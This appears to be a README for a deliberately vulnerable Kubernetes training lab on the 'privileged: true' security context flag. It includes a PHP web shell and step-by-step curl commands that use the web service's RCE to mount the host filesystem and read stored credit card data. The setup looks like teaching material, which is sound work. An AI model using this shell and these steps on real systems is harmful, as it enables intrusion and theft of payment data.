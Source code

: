 # Privileged Pod

## Context
Privileged pod (AKA `privileged`) is one of the Security Context flags for a Pod or Container.
Privileged containers can do nearly everything a process on the host can do, and provide no isolation from other workloads. This kind of a setting should be avoided where possible.

## Env components
### Web
Vulnerable application with RCE and privileged access.

* Deployment - `k8s/PrivilegedPod/web/deployment.yaml`

    This `k8s` deployment contains the unsecured instruction `privileged: true`
* Service - `k8s/PrivilegedPod/web/service.yaml`

### Payment
Payments processing microservice. Completely protected ;).

* Deployment - `k8s/PrivilegedPod/payment/deployment.yaml`
* Service - `k8s/PrivilegedPod/payment/service.yaml`

## Exploit

Your target is to steal users credit cards. Cards data is located in `payment` microservice (which has no security issues). But `web` microservice has an RCE vulnerability (and has `privileged`). This allows us to access any data in the cluster, including cards data.

1. Upload file `shell.php`:
    ```php
    <?php
    echo '<pre>';
    var_dump(system($_GET['cmd']));
    echo '</pre>';
    ```
2. Create temporary directory for host file system `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mkdir%20/tmp/host`
3. Mount host's file system (`sda1` in my case but could vary) `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mount%20/dev/sda1%20/tmp/host`
4. Find file `cards.json` in hosts filesystem `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=find%20/tmp/host%20-name%20"cards.json"`
5. Get stored cards `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=cat%20<👆>`

